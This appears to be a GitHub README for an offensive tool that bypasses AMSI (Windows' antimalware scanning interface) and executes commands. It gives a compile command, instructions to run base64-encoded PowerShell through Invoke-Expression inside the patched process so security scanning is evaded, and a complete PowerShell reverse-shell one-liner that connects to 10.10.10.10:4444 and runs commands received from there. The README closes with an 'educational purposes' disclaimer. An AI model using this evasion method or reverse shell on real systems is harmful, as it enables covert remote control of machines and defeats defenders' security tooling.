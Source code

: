 # AmsiBypass-and-CommandExecution

## Demo Video

 
https://user-images.githubusercontent.com/89106058/232936480-b0e4e0d8-d435-449c-93c7-a3e8a150027e.mp4


## Compilation command

```powershell
g++ -m64 -o happy_hacking.exe -static-libgcc main.cpp
```

## Important

- You must check that the commands contained in base64 belong exclusively to PowerShell to ensure their correct execution.
- You should always try to use Invoke-Expression to make the command run in the patched powershell to avoid creating new powershell instances that are not patched.

An example of a one-liner that contains only PowerShell commands and can be base64 encoded:

```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10', 4444); $stream = $client.GetStream(); [byte[]]$bytes = 0..65535 | ForEach-Object {0}; while (($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {$data = ([System.Text.Encoding]::ASCII).GetString($bytes, 0, $i);$sendback = (Invoke-Expression $data 2>&1 | Out-String);$sendback2 = $sendback + 'PS ' + (Get-Location).Path + '> ';$sendbyte = ([System.Text.Encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte, 0, $sendbyte.Length);$stream.Flush()};$client.Close();
```

Finally, I am not responsible for what you do with the code, this is purely for educational purposes.
